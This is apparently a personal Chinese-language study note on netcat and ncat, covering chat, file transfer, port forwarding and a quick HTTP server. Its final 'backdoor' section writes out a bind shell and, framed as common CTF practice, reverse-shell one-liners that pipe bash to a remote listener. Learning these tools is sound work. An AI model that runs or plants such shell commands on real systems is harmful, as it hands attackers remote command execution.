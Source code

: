 ```yaml
---
title: nc命令笔记
date: 2022-09-25 18:31:22
tag:
- nc
- ncat
- shell
categories: 
- shell

---
```



# 单聊
```shell script
# 服务端(收):
nc -l -k 8080
# 客户端(发):
nc 127.0.0.1 8080
```
双向聊天的话就开俩端口，互相监听；
`-l`就是listen、监听某个端口；
`-k`就是keep，不然客户端一断服务端也会关闭；keep的话服务端能保持不挂；

# 聊天室
这个可以安装一下nmap(`brew install nmap`)，然后就可以用ncat了:
```shell script
# 服务端以broker模式启动:
ncat -l 8888 --broker
```
然后多个客户端可以连到8888上聊天；（客户端用nc或ncat都行）

# 传输文件
(就是在聊天基础上加一个管道)
```shell script
# 接收方:
nc -l 8080 > out.jpeg
# 发送方:
nc 127.0.0.1 < WechatIMG104.jpeg
```

# 转发请求:
```shell script
mkfifo 2way
nc -k -l 8080 0<2way | nc 172.29.53.164 21445 1>2way
nc -k -l 8081 0<2way | nc 127.0.0.1 8080 1>2way
# 或
ncat -k -l 8080 0<2way | ncat 172.29.53.164 21445 1>2way
# 或
cat 2way | nc 172.29.53.164 21445 | nc -l 8080 > 2way
cat 2way | nc 127.0.0.1 8080 | nc -k -l 8081 > 2way
# 然后
echo -n "GET / HTTP/1.0\r\n\r\n" | nc -v -D 127.0.0.1 8080
```

## http服务
简单启动一个http服务方便测试:
```shell script
python -m SimpleHTTPServer 8081
```
然后在当前目录放上index.html就能返回文本给curl请求了。
这个在测试命令是否成功执行时能用，也能带回一些基本数据。


# 后门
其实就是转发端口上收到的东西到`/bin/bash`，从而执行命令:
```shell script
# 被控制端:
nc -l 8080 -e /bin/bash
# 控制端:
nc 127.0.0.1 8080
```
这个挺离谱的，试了一下可以ls目录，然后cd到某个目录里继续执行ls、回显结果。
感觉相当于为所欲为了。

CTF里的反向shell一般是先在自己的机器上:
```shell script
nc -nvlp 10086
```
然后想办法在目标机器上执行:
```shell script
bash -i >& /dev/tcp/<my_server_ip>/10086 0>&1
```
或者:
```shell script
nc -e /bin/sh <my_server_ip> 10086
```

# 参考资料
https://linux.cn/article-9190-1.html